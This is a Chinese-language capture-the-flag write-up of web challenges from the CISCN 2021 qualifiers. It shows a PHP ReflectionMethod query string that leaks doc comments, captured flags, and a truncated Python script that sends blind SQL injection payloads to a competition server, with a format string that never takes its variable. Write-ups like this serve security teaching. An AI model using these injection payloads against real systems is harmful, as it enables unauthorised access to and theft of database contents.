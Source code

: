 ```yaml
---
title: CISCN 2021 Quals Writeup web
date: 2021-05-16
image: https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210516174112.jpg
description: CISCN 2021 线上初赛
math: true
categories: 
- ctf_writeup
tags:
- 文件包含
- 无列名注入
- ReflectionMethod
- php二次渲染
- session.upload_progress
---
```


就发下web的，所有wp戳这里->[第十四届全国大学生信息安全竞赛初赛 Writeup by X1cT34m](https://ctf.njupt.edu.cn/613.html)

## Web

### easy_source

原题，`ReflectionMethod` 构造 `User` 类中的函数方法，再通过 `getDocComment` 获取函数的注释

https://r0yanx.com/2020/10/28/fslh-writeup/

提交参数：

```
?rc=ReflectionMethod&ra=User&rb=a&rd=getDocComment
```

爆破rb的值a-z，在q得到flag：

![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210522220457.png)

CISCN{fvsgF-5rRwf-p8KZP-vOndu-SIQoM-}

### easy_sql

fuzz：

![image-bansdasdsads](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210522220503.png)

sqlmap得到表名flag和一个列名id：报错加无列名注入

![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210522220520.png)

一开始用按位比较：

```python
import requests
url = 'http://124.70.35.238:23511/'
def add(flag):
    res = ''
    res += flag
    return res
flag = ''
for i in range(1,200):
    for char in range(32, 127):
        hexchar = add(flag + chr(char))
        payload = "1') or (select 1,'NO','CISCN{JGHHS-JPD52-IJK4O-MGPDZ-DUFWI-')>=(select * from security.flag limit 1)#".format(hexchar)
        data = {"uname":"admin",'passwd':payload}
        r = requests.post(url=url, data=data)
```